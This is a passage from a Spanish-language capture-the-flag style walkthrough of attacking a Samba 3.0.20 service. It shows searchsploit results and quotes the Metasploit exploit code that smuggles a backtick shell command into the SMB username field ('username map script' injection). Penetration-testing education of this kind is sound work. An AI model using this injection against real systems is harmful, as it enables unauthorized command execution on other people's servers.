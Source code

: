 | Parámetros | Descripción |
|--------------------------|
| *-x*       | Para poder leer el Exploit. |
| *-m*       | Para copiar el Exploit en el directorio actual. |

<br>

Lo que hace este Exploit es, tratar de conectarnos al **servicio FTP** a través del **puerto 6200** (o eso entiendo), pero no creo que funcione porque dicho puerto no está abierto, así que no perdamos tiempo y mejor analicemos el servicio Samba.

<h2 id="Busqueda">Buscando, Analizando y Probando un Exploit para Servicio Samba</h2>

Como mencione anteriormente, como no encontramos mucho en el **servicio Samba** lo que podemos hacer es buscar un exploit para el **servicio Samba** que nos ayude.
```bash
searchsploit Samba 3.0.20      
---------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                          | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                           | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                   | linux_x86/dos/36741.py
---------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

<br>

<h3 id="PruebaExp2">Probando Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)</h3>

Vamos a analizar el exploit que esta hecho en ruby, ósea el **Username Map Script**. El exploit es usado en **Metasploit** de forma automatizada pero analicemos cual es el exploit que usa. Recuerda usar el comando **searchsploit -x** para analizar el exploit.
```ruby
def exploit

                connect

                # lol?
                username = "/=`nohup " + payload.encoded + "`"
                begin
                        simple.client.negotiate(false)
                        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                rescue ::Timeout::Error, XCEPT::LoginError
                        # nothing, it either worked or it didn't ;)
                end

                handler
        end
```
Quizá podamos usar esta parte **username = "/=`nohup " + payload.encoded + "`"**  para poder ganar acceso. Para intentar loguearnos usaremos el comando logon que nos pide un usuario y contraseña para ver si podemos inyectar código.
